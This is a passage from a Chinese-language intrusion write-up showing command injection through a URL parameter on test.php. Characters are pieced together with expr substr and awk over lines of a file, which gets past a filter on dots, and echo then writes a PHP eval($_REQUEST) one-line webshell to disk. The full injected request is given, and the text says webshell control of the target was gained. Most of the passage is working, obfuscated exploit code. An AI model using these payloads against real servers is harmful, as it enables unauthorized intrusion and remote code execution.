 最后把 test.php 全部改成 xxoo 就解决了点的限制

原语句：

```
echo `expr substr $(awk NR==1 test.php) 1 1`?php eval`expr substr $(awk NR==11 test.php) 33 1``expr substr $(awk NR==20 test.php) 1 1`_REQUEST[v]`expr substr $(awk NR==11 test.php) 35 1``expr substr $(awk NR==20 test.php) 7 1``expr substr $(awk NR==17 test.php) 2 1``expr substr $(awk NR==1 test.php) 6 1` >2`expr substr $(awk NR==30 test.php) 13 1`php 
```

修改后:

```
echo `expr substr $(awk NR==1 xxoo) 1 1`?php eval`expr substr $(awk NR==11 xxoo) 33 1``expr substr $(awk NR==20 xxoo) 1 1`_REQUEST[v]`expr substr $(awk NR==11 xxoo) 35 1``expr substr $(awk NR==20 xxoo) 7 1``expr substr $(awk NR==17 xxoo) 2 1``expr substr $(awk NR==1 xxoo) 6 1` >2`expr substr $(awk NR==30 xxoo) 13 1`php 
```

测试环境成功执行:

```
http://localhost/test.php?id=anything;echo `expr substr $(awk NR==1 xxoo) 1 1`?php eval`expr substr $(awk NR==11 xxoo) 33 1``expr substr $(awk NR==20 xxoo) 1 1`_REQUEST[v]`expr substr $(awk NR==11 xxoo) 35 1``expr substr $(awk NR==20 xxoo) 7 1``expr substr $(awk NR==17 xxoo) 2 1``expr substr $(awk NR==1 xxoo) 6 1` >2`expr substr $(awk NR==30 xxoo) 13 1`php; 
```

![2014030416381681081_png.jpg](img/img14_u27_jpg.jpg)

最终成功写入完整的 php 一句话木马.拿下目标 webshell 权限.

![2014030416360451579_png.jpg](img/img15_u22_jpg.jpg)
